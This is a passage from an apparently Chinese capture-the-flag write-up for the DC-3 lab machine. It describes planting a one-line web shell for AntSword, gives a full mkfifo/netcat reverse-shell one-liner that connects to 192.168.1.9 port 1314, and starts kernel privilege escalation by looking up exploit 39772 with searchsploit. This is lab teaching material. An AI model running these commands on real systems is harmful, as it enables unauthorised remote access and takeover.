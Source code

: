 ![image-20240405154938762](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405154938762.png)

在该文件中写入一句话木马，用于蚁剑连接

![image-20240405162646905](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405162646905.png)

使用蚁剑连接

![image-20240405162722532](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405162722532.png)

可以看到，成功获取了shell，但权限不足，我们需要提权；

---



### 反弹shell

> 反弹shell  -建立shell通道 使用netcat

因为目标主机存在netcat，并且没有 -e参数，所以使用以下命令建立shell通道

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.1.9 1314 >/tmp/f

#rm /tmp/f：删除名为 `/tmp/f` 的文件，确保没有与后续命令冲突的临时文件。
#mkfifo /tmp/f：创建一个命名管道，即 `/tmp/f` 文件。命名管道是一种特殊的文件类型，允许进程之间进行双向通信。
#cat /tmp/f：从命名管道 `/tmp/f` 读取数据，并将其发送给后续的管道。
#/bin/bash -i 2>&1：启动一个交互式的 Bash Shell
#nc 192.168.1.9 1314：使用nc连接
```

![image-20240405163036787](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405163036787.png)

可以看到，主机侦听的1314端口已经和目标成功连接



### 权限提升

根据之前做的DC-1和DC-2，这里我们能想到用suid和git提权，但是经过尝试发现都不可行，所以尝试使用系统内核漏洞；

首先我们看下系统版本

![image-20240405163356367](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405163356367.png)

我们发现该系统为Ubuntu 16.04 ；再使用 searchsploit 工具查找系统漏洞

![image-20240405163645734](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405163645734.png)

可以看到，该系统存在大量的漏洞，我们选择 4.4.x那条；

查看39772.txt文件

```sh
searchsploit -x linux/local/39772.txt
```
